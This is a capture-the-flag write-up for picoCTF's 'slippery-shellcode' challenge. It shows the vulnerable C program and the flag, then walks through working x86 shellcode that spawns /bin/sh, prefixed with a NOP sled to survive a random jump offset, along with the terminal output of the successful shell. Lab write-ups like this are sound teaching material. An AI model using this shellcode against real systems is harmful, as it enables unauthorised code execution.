

# Binary Exploitation - slippery-shellcode (200 points)

## Challenge

*This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808 on the shell server. Source.*



```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}

## Walkthrough

This challenge is the same that "Handy-shellcode" except that a random offset is added to your payload pointer:

```C
int offset = (rand() % 256) + 1;
((void (*)())(buf+offset))();
```

Hence, if we use the same shellcode as "handy-shellcode" we end with a segfault because the pointer to our function won't start at it's beginning, but somewhere random inside the shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing from a random location now...

Segmentation fault (core dumped)
```

But we can use the NOP instruction so that even with an offset, the call to `buf+offset` will just "slip" to our shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

��������������������������������������������������������������������������������������������������������������������������1�1�1�1�Phn/shh//bi��
                                                                                                                                              ̀
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}
```
